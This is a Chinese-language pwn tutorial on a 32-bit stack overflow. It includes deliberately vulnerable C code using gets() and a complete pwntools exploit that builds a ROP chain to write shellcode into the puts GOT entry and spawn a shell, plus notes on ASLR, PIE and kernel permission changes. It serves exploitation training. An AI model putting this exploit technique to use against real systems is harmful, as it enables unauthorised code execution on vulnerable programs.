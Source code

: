 ```yaml
---
title: 'ROP 和 Shellcode'
date: '2023-08-29'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '通过控制 `gets` 的写入位置，把 shellcode 放在预设的地方。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。'
authors: ['default']
---
```


<details>
  <summary>Table of Contents</summary>
  <TOCInline toc={props.toc} />
</details>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个
区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表
里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入
这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把
`gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入
的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在任意位置，然后
执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确
可靠。

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

LINK

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，
只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets` ，也不知道
GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，
例如 `5.9.0` ，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0` ，
如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode （如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

